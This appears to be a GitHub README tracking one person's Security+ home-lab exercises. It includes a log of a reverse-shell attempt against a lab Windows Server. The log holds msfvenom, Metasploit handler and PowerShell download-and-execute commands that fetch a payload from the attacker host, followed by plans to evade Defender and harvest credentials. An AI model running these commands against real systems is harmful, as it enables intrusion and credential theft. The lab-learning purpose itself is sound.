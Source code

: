 # 📊 CompTIA Security+ Lab Tracker (SY0-701)

This tracker maps hands-on labs in my home cybersecurity lab to the CompTIA Security+ objectives. Each section links to lab documentation and tools used.

---

## Domain 1: Attacks, Threats, and Vulnerabilities

| Lab | Status | Link |
|-----|--------|------|
| Network Reconnaissance | ✅ Complete | [nmap-scan.md](./recon_logs/nmap-scan.md)
| Exploiting CVE via Metasploit | ✅ Complete | [metasploit-cve.md](./exploitation/metasploit-cve.md)
# SECURITY+ LAB TRACKER

## Phase 1 – Exploitation

### April 21–22, 2025 — Reverse Shell Attempt via PowerShell + Evil-WinRM

**Objective:** Gain reverse shell access to the Windows Server 2025 target (192.168.1.2) from Kali Linux attacker (192.168.1.3).

**Summary:**

- Used `msfvenom` to generate a reverse shell payload:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
  ```
- Hosted payload with Python HTTP server:
  ```bash
  sudo python3 -m http.server 80
  ```
- Set up Metasploit listener:
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/x64/shell_reverse_tcp
  set LHOST 192.168.1.3
  set LPORT 4444
  run
  ```
- Transferred and attempted to execute payload on Windows Server via PowerShell:
  ```powershell
  Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
  Start-Process C:\Users\Public\revshell.exe
  ```
- **Blocked by Defender**: Execution blocked due to Defender identifying `revshell.exe` as a threat.

**Outcome:** Reverse shell payload delivery succeeded; execution was blocked by Windows Defender. Target is aware of potential threats but lacks enhanced hardening.

**Next Steps:**

- Bypass Defender via encoding/obfuscation
- Explore WMI or scheduled task payload execution
- Capture more credentials using CrackMapExec or responder-based attacks

**📄 Report:** https://github.com/olehstudycyber/Oleh-Borysovskyy/commit/fca4d4eea008af0366f47c7b22ca1d92dbc297bc


---

## Domain 2: Architecture and Design

| Lab | Status | Link |
|-----|--------|------|
| Risk Assessment & Documentation | ✅ Complete | [risk-assessment.md](./reports/risk-assessment.md)

---

## Domain 3: Implementation

| Lab | Status | Link |
|-----|--------|------|
| Active Directory Setup | ✅ Complete | [PHYSICAL_LAB.md](./PHYSICAL_LAB.md)
| Group Policy Object (GPO) Configuration | ✅ Complete | Coming soon

---

## Domain 4: Operations and Incident Response

| Lab | Status | Link |
|-----|--------|------|
| Sysmon & Windows Defender Detection | ✅ Complete | [sysmon-analysis.md](./post_exploitation/sysmon-analysis.md)
| SIEM Setup (Wazuh) | 🚧 In Progress | Coming soon

---

## Domain 5: Governance, Risk, and Compliance

| Lab | Status | Link |
|-----|--------|------|
| Windows Server Hardening | ✅ Complete | [BUILD_SERVER.md](./BUILD_SERVER.md)

---

## ✅ To-Do List

- [ ] Set up Wazuh SIEM on separate Linux machine
- [ ] Simulate brute-force and phishing attacks
- [ ] Analyze traffic using Wireshark
- [ ] Upload screenshots and logs from labs

---

> ⚠️ All labs are performed in a secure, isolated lab environment for learning and demonstration purposes only.

Happy hacking! 💻🔐

---

> Created for personal Security+ lab prep by [Your Name] – GitHub: [yourusername]

